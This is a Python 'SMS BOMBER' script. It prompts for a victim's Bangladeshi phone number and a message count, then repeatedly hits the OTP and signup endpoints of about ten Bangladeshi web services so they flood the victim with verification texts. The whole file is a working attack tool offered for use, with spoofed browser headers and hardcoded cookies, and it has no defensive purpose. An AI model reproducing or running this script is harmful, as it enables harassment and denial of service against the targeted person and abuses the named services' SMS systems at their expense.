 #---------{ ADMIN INFO }----------
# AUTHOR   :Md Turikul Islam Tounik
# TEAM     : cyber Tounik
#-------------------------------- 

import sys
import time
import os
import requests
import smtplib

os.system("clear")
def slw(l):
  for i in l:
    sys.stdout.write(i)
    sys.stdout.flush()
    time.sleep(0.1)


def primiam():
  os.system("clear")
  logo="""\033[38;5;46m
  
  

  _______                _ _    
 |__   __|              (_) |   
    | | ___  _   _ _ __  _| | __
    | |/ _ \| | | | '_ \| | |/ /
    | | (_) | |_| | | | | |   < 
    |_|\___/ \__,_|_| |_|_|_|\_\
                                
                                

DEVELOPER :Md Turikul Islam Tounik
GITHUB    : Tounik1214
VERSION   : 2.0
PROJECT   : SMS BOMBER 
FACEBOOK  : Md Turikul Islam Tounik
××××××××××××××××××××××××××××××××××××××××××××"""
  for i in logo:
    sys.stdout.write(i)
    sys.stdout.flush()
    time.sleep(0.001)
  num=input("\n\n\033[38;5;195m[\033[38;5;46m+\033[38;5;195m] VICTIMS NUMBER : 880")
  limit=int(input("\n\033[38;5;195m[\033[38;5;46m+\033[38;5;195m] MESSAGE LIMIT : "))
  
  headers = {
      'authority': 'www.bioscopelive.com',
      'accept': '*/*',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'referer': 'https://www.bioscopelive.com/en/login',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
      'sec-fetch-site': 'same-origin',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
      'x-requested-with': 'XMLHttpRequest',
  }
  
  url1=f"https://www.bioscopelive.com/en/login/send-otp?phone=880{num}&operator=bd-otp"
  
  headers2 = {
      'referer': 'https://redx.com.bd/',
      'user-agent':'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  data1 = {
      'name': num,
      'phoneNumber': num,
      'service': 'redx',
  }
  
  url2="https://api.redx.com.bd/v1/user/signup"
  
  headers3 = {
      'authority': 'bikroy.com',
      'accept': 'application/json, text/plain, */*',
      'accept-language': 'bn',
      'application-name': 'web',
      'referer': 'https://bikroy.com/bn/users/login',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
      'sec-fetch-site': 'same-origin',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  url3= "https://bikroy.com/data/phone_number_login/verifications/phone_login?phone=0"+num
  
  headers4 = {
      'authority': 'www.ieatery.com.bd',
      'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'referer': 'https://www.ieatery.com.bd/login',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
      'sec-fetch-dest': 'document',
      'sec-fetch-mode': 'navigate',
      'sec-fetch-site': 'same-origin',
      'sec-fetch-user': '?1',
      'upgrade-insecure-requests': '1',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  url4="https://www.ieatery.com.bd/otp-verify?phn=0"+num
  
  headers5 = {
      'referer': 'https://doctime.com.bd/',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  data2 = {
      'flag': 'https://doctime-core-ap-southeast-1.s3.ap-southeast-1.amazonaws.com/images/country-flags/flag-800.png',
      'code': '88',
      'contact_no': '0'+num,
      'country_calling_code': '88',
  }
  
  headers6 = {
      'referer': 'https://osudpotro.com/',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  data3 = {
      'mobile': '+88-0'+num,
      'deviceToken': 'web',
      'language': 'en',
      'os': 'web',
  }
  headers7 = {
      'referer': 'https://osudpotro.com/',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  data4 = {
      'mobile': '+88-0'+num,
      'deviceToken': 'web',
      'language': 'en',
      'os': 'web',
  }
  headers8 = {
      'Accept-Language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'Connection': 'keep-alive',
      'Origin': 'https://hungrynaki.com',
      'Referer': 'https://hungrynaki.com/',
      'Sec-Fetch-Dest': 'empty',
      'Sec-Fetch-Mode': 'cors',
      'Sec-Fetch-Site': 'same-site',
      'User-Agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
      'accept': '*/*',
      'content-type': 'application/json',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
  }
  
  data8 = {
      'operationName': 'createOtp',
      'variables': {
          'phone':""+num,
          'country': '880',
          'uuid': '6fdb595b-a310-4f82-acca-a9b9c43e4eb0',
          'osVersionCode': 'Linux aarch64',
          'deviceBrand': 'Chrome',
          'deviceModel': '107',
          'requestFrom': 'U2FsdGVkX19u2nkZ5KMkGtpye/A3kpZfWKv3ylKExbM=',
      },
      'query': 'mutation createOtp($phone: PhoneNumber!, $country: String!, $uuid: String!, $osVersionCode: String, $deviceBrand: String, $deviceModel: String, $requestFrom: String) {\n  createOtp(auth: {phone: $phone, countryCode: $country, deviceUuid: $uuid, deviceToken: ""}, device: {deviceType: WEB, osVersionCode: $osVersionCode, deviceBrand: $deviceBrand, deviceModel: $deviceModel}, requestFrom: $requestFrom) {\n    statusCode\n  }\n}\n',
  }
  cookies9 = {
      '_ga': 'GA1.3.1671188319.1677642641',
      '_gid': 'GA1.3.407134519.1677642641',
      '_gat_UA-146796176-2': '1',
      '_fbp': 'fb.2.1677642641903.2005162471',
      '_ga_5LF4359FD3': 'GS1.1.1677642640.1.1.1677642660.0.0.0',
  }
  
  headers9 = {
      'authority': 'fundesh.com.bd',
      'accept': 'application/json, text/plain, */*',
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'content-type': 'application/json; charset=UTF-8',
      'origin': 'https://fundesh.com.bd',
      'referer': 'https://fundesh.com.bd/fundesh/profile',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
      'sec-fetch-dest': 'empty',
      'sec-fetch-mode': 'cors',
      'sec-fetch-site': 'same-origin',
      'user-agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
  }
  
  params9 = {
      'service_key': '',
  }
  
  json_data9 = {
      'msisdn': ''+num,
  }
  headers10 = {
      'Accept': '*/*',
      'Accept-Language': 'en-GB,en-US;q=0.9,en;q=0.8',
      'Connection': 'keep-alive',
      'Origin': 'https://ecourier.com.bd',
      'Referer': 'https://ecourier.com.bd/',
      'Sec-Fetch-Dest': 'empty',
      'Sec-Fetch-Mode': 'cors',
      'Sec-Fetch-Site': 'same-site',
      'User-Agent': 'Mozilla/5.0 (Linux; Android 10; M2010J19CI) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Mobile Safari/537.36',
      'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
      'sec-ch-ua-mobile': '?1',
      'sec-ch-ua-platform': '"Android"',
  }
  url10="https://backoffice.ecourier.com.bd/api/web/individual-send-otp?mobile=0"+num
#  
  ses=0
  while limit>ses:
    sent1=requests.get(url1, headers=headers)
    if sent1.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent2=requests.post(url2, headers=headers2,data=data1)
    if sent2.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent3=requests.get(url3,headers=headers3)
    if sent3.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent4=requests.get(url4,headers=headers4)
    if sent4.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent5=requests.post('https://admin.doctime.com.bd/api/authenticate', headers=headers5, data=data2)
    if sent5.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent6=requests.post('https://api.osudpotro.com/api/v1/users/send_otp', headers=headers6, data=data3)
    if sent6.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent7=requests.post('https://api.osudpotro.com/api/v1/users/send_otp', headers=headers7, data=data4)
    if sent7.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent8=requests.post('https://api-v4-1.hungrynaki.com/graphql', headers=headers8, json=data8)
    if sent8.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent9=requests.post(
        'https://fundesh.com.bd/api/auth/generateOTP',
        params=params9,
        cookies=cookies9,
        headers=headers9,
        json=json_data9,
    )
    if sent9.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
    else:
      pass
    sent10 = requests.get(url10,headers=headers10)
    if sent10.status_code==200:
      ses+=1
      print(f"\033[38;5;195m\n[\033[38;5;46m{ses}\033[38;5;195m]\033[38;5;46m SMS WAS SENT ♻️")
  os.system("clear")
  print(""" \033[38;5;46m

  _______                _ _    
 |__   __|              (_) |   
    | | ___  _   _ _ __  _| | __
    | |/ _ \| | | | '_ \| | |/ /
    | | (_) | |_| | | | | |   < 
    |_|\___/ \__,_|_| |_|_|_|\_\
                                
                                

                            
 TNQ FOR USING OUR TOOLS 🖤🥰
""")
  os.system("xdg-open https://www.facebook.com/profile.php?id=100054925285605")
  sys.exit()
baner= os.system("figlet -f slant EMON")
baner = str(baner)
baner = baner.replace("0","")
logo=f""" {baner} \033[1;37m
××××××××××××××××××××××××××××××××××××××××××××
\033[1;37m❲\033[38;5;46m+\033[1;37m❳ DEVELOPER :Md Turikul Islam Tounik
\033[1;37m❲\033[38;5;46m+\033[1;37m❳ GITHUB    : Tounik1214
\033[1;37m❲\033[38;5;46m+\033[1;37m❳ VERSION   : 2.0
\033[1;37m❲\033[38;5;46m+\033[1;37m❳ PROJECT   : SMS BOMBING 
\033[1;37m❲\033[38;5;46m+\033[1;37m❳ FACEBOOK  : Md Turikul Islam Tounik
××××××××××××××××××××××××××××××××××××××××××××"""
print(logo)
print("[01] START SMS BOMBING ")
print("[02] CONTACT ME ON FACEBOOK ")
print("××××××××××××××××××××××××××××××××××××××××××××")
usr=input("\033[38;5;195m[\033[38;5;46m+\033[38;5;195m]\033[38;5;46m YOUR CHOICE \033[38;5;195m: ")
usr=usr.replace(" ","")
if usr== "1" or usr== "01":
  primiam()
elif usr== "2" or usr== "02":
  os.system("xdg-open https://www.facebook.com/profile.php?id=100054925285605")
  sys.exit()
else:
  print("\033[38;5;195m\n[\033[1;31m!\033[38;5;195m]\033[1;31m WRONG OPTION ENTERED..\n")
  sys.exit()
